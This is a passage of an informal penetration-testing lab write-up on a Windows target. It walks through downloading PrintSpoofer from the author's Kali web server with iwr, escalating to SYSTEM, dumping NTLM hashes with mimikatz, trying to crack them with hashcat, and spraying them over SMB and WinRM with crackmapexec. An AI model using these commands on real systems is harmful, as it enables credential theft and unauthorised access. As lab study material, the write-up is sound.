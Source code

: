 Ok Now im Very curious to check whether I'm bale to increase my Privilege using SeImpersonate.

**Will transfer PrintSpoofer from our kali to windows machine:** 
Already I started my python webserver on my kali, so will use below command to download the PrintSpoofer.exe from kali.
```
iwr -uri "http://192.168.45.177/PrintSpoofer.exe" -Outfile print.exe
```

![[Pasted image 20240602150850.png]]

![[Pasted image 20240602150814.png]]
We successfully downloaded the PrintSpoofer.exe to **\\users\\public** directory

**Now will run the program to elevate our privileges:**
```
./print.exe -i -c cmd
```

![[Pasted image 20240602150955.png]]
There you goooo......!, we Elevated our privilege

**Now will run mimikatz to get any NTLM hashes or passwords:**
As always, I have transferred the mimikatz to windows machine from my kali with the help of **iwr** command. the python webserver is already up.
![[Pasted image 20240602165019.png]]

**And will run the following command to retrieve NTLM hashes or Passwords:**
```
privilege::debug
sekurlsa::logonpasswords
```
![[Pasted image 20240602165219.png]]
![[Pasted image 20240602165240.png]]
So we got NTLM hashes for two users Celia and Mary

Now will try to crak the ntlm hashes using hashcat: I have saved those two hashes in a file ntlm.hash
```
hashcat -m 1000 ntlm.hash /usr/share/wordlists/rockyou.txt --force
```
![[Pasted image 20240602165458.png]]
But no luck, we can't crack the hashes.

**No problem will try to brute force with hashes we got:**
```
crackmapexec smb 10.10.151.0/24 -u users.txt -H ntlm.hash --continue-on-success --shares
```

![[Pasted image 20240602165622.png]]
We can see that user Celia's hash worked for smb, but we can't list any shares.

Now will try that for winrm:
```
crackmapexec winrm 10.10.151.0/24 -u users.txt -H ntlm.hash --continue-on-success
```
![[Pasted image 20240602165749.png]]
Cooool, we got pwned sign. We can confirm that Celia is a local admin of the machine MS02.

 **Now will move to MS02 (T2....!)**
 